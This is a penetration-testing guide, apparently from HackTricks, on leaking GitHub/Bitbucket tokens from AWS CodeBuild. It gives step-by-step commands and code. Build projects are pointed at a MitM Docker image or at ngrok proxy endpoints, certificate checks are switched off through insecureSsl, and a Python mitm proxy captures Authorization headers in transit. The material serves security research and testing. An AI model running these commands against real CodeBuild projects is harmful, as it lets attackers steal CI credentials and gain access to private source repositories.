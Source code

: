 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured that you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   - Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     - **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   - You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   - Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   - Create a **new Codebuild project** or **modify** the environment of an existing one.
   - Set the project to use the **previously generated Docker image**

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

- As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

> [!TIP]
> The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.

4. **Run the build & capture the credentials**

- You can see the token in the **Authorization** header:

  <figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **without checking the certificate** offered by the platform.

- First you need to enumerate the current configuration with something like:

```bash
aws codebuild batch-get-projects --name <proj-name>
```

- Then, with the gathered info you can update the project setting **`insecureSsl`** to **`True`**. The following is an example of my updating a project, notice the **`insecureSsl=True`** at the end (this is the only thing you need to change from the gathered configuration).
  - Moreover, add also the env variables **http_proxy** and **https_proxy** pointing to your tcp ngrok like:

```bash
aws codebuild update-project --name <proj-name> \
    --source '{
        "type": "GITHUB",
        "location": "https://github.com/carlospolop/404checker",
        "gitCloneDepth": 1,
        "gitSubmodulesConfig": {
            "fetchSubmodules": false
        },
        "buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
        "auth": {
            "type": "CODECONNECTIONS",
            "resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
        },
        "reportBuildStatus": false,
        "insecureSsl": true
    }' \
    --environment '{
        "type": "LINUX_CONTAINER",
        "image": "aws/codebuild/standard:5.0",
        "computeType": "BUILD_GENERAL1_SMALL",
        "environmentVariables": [
            {
                "name": "http_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            },
            {
                "name": "https_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            }
        ]
    }'
```

- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

> [!TIP] > **This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

- An attacker could add the environment variables **http_proxy** and **https_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: `http://github.com/carlospolop-forks/TestActions`
- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="0.0.0.0",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Next, click on **Build the project** or start the build from command line:

```sh
aws codebuild start-build --project-name <proj-name>
```

- Finally, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.

{{#include ../../../../banners/hacktricks-training.md}}
